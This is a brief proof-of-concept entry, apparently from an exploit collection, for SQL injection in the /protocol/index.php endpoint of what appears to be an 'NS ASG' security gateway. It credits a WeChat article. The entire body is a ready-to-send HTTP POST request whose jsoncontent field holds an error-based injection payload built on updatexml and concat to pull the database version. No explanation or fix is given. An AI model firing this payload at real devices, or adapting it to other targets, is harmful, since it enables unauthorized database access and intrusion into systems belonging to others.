 # ns_asg_-protocol-index.php_sqli

from: https://mp.weixin.qq.com/s/rK0sVrheNe439JpGM1z_aw 
2024.3.18 @2

```
POST /protocol/index.php HTTP/1.1
Host:127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

jsoncontent={"protocolType":"uploadmacbind","messagecontent":["1'and(updatexml(1,concat(0x7e,(select+version()),0x7e),1))='"]}
```
